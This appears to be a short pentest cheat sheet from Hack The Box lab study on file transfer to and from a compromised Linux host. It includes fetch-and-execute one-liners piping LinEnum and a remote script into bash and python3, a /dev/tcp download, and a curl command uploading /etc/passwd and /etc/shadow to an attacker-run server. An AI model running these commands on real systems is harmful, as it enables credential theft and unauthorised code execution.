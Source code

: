 
# Download files
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### Fileless
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Bash
[[bash]]
```shell
h@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80

h@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

h@htb[/htb]$ cat <&3
```

#### SSH
[[ssh]]
```shell
h@htb[/htb]$ sudo systemctl start ssh

h@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload files

Start server:
```shell
h@htb[/htb]$ sudo python3 -m pip install --user uploadserver

h@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

h@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload:
```shell
h@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Python/PHP/Ruby servers:
[[python]] [[php]] [[ruby]]
```shell
h@htb[/htb]$ python3 -m http.server

h@htb[/htb]$ python2.7 -m SimpleHTTPServer

h@htb[/htb]$ php -S 0.0.0.0:8000

h@htb[/htb]$ ruby -run -ehttpd . -p8000
```